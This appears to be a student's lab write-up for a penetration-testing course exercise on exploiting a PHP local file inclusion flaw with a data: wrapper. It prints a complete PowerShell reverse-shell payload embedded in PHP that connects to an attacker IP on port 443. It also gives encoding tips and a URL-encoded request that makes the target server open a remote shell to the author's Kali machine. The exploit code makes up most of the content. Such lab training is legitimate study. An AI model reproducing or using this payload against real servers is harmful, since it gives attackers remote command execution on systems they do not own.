


### 9.4.4.10 Exercises
#### 1. Exploit the LFI vulnerability using a PHP wrapper.



#### 2. Use a PHP wrapper to get a shell on your Windows 10 lab machine.

- I modified the Powershell Reverse-Shell Code to be wrapped in PHP.  This took a considerable amount of time as I knew I needed to escape the single quotes but was still getting errors and no connection.  I finally realized I had to encode the plus signs (+) as %2B PRIOR to the URL encoding, as these plus signs had to survive two rounds of rendering to make it to Powershell intact. 
  
  ```php
data:text/plain,<?php echo shell_exec('powershell -c "$client = New-Object System.Net.Sockets.TCPClient(\'192.168.119.216\',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback %2B \'PS \' %2B (pwd).Path %2B \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"') ?>
  ```
  
  I encoded this for URL's and supplied it as the parameter in the URL to have the server initiate a reverse shell to my listening Kali box:
  ```php+HTML
  http://192.168.216.10/menu.php?file=%64%61%74%61%3a%74%65%78%74%2f%70%6c%61%69%6e%2c%3c%3f%70%68%70%20%65%63%68%6f%20%73%68%65%6c%6c%5f%65%78%65%63%2
  ----SNIPPED----
  24%63%6c%69%65%6e%74%2e%43%6c%6f%73%65%28%29%22%27%29%20%3f%3e
  ```
  
- Obtained shell access on server:
  
  
  

